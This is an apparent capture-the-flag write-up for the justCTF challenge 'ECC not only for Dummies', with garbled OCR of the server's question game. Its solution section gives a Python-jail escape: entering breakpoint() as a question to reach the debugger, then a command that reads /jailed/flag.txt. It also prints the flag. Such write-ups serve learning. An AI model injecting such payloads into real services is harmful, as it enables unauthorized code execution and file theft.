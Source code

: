 # ECC not only for Dummies
> This time you will need to use all logic that you have

## About the Challenge
We were given a server to connect and also the source code. So we can input 8 questions and we need to guess the cards too (You can download the source code [here](ecc_not_only_for_dummies.zip))


[Image extracted text: Hello
there
Would
you
like
to play
a little game?
have
written
values
(yes
no)
on
cards
am curious
if
you
are
able to
guess
which
values
are
You
can
ask
me
logic questions
know you
re smart ,
50
won
Lways be
honest
about
the
answers
No worries
will fool
you only
times
0 . Question:
test
Question
resolves
to:
True
1.Question:
test
Question
resolves
to:
True
2.Question:
test
Question
resolves
to:
False
3.Question:
test
Question
resolves
to:
True
4.Question:
test
Question
resolves
to:
True
5.Question:
test
Question
resolves
to:
True
6.Question:
test
Question
resolves
to:
False
7.Question:
test
Question
resolves
to:
True
You have
used
all
the questions
Now tell
me
one
by
one
what
have
written
down
on
the cards
Your response
test
Your
answer
did
not
include
all
the
cards
they]


## How to Solve?
To solve this chall, im using PyJail payload and I inputted it when the bot asked us to input the question

```
breakpoint()
```

After enterring Python debugger, run this command to obtain the flag

```
open("/jailed/flag.txt").read()
```


[Image extracted text: 0.Question: breakpoint()
~Return--
<string-(1)<module>()->None
(Pdb) open(" / jailed/flag
txt").read()
justcTF{SUnd_SOmetim3s_It$_EvEn_fOlvuble}
(Pdb)
Time
limit exceeded _
Try
again!]


```
justCTF{S4nd_S0metim3s_It$_EvEn_$0lv4ble}
```